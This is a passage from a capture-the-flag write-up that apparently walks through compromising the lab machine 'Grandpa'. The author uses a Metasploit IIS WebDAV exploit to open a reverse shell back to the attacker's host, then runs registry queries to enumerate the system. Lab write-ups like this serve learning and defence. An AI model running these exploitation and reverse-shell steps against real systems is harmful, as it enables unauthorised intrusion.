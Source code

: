 ### Preparation

I'll use the Metasploit module
`exploit/windows/iis/iis_webdav_scstoragepathfromurl` to exploit this
vulnerability, since it's non-trivial to do by hand.

I'll set the `payload` to `payload/windows/shell_reverse_tcp`, the `RHOSTS` to
`10.10.10.14`, the `LHOST` to `10.10.14.10` and the `LPORT` to `9001`.

### Exploitation

No we can launch the exploit!

```sh
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run
```

```
<SNIP>
c:\windows\system32\inetsrv>
```

It went off without a hitch.

However, I don't like Metasploit's shell, so I'll open my own on port `9002`.
Unfortunately, Powershell doesn't exist on this box.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as
`NT AUTHORITY\Network Service`.

### Architecture

What is Grandpa's architecture?

```bat
c:\windows\system32\inetsrv> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PROCESSOR_ARCHITECTURE
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
    PROCESSOR_ARCHITECTURE    REG_SZ    x86
```

It's using x86. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Grandpa.

```bat
c:\windows\system32\inetsrv> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ProductName ^
    && reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v CurrentBuildNumber
```
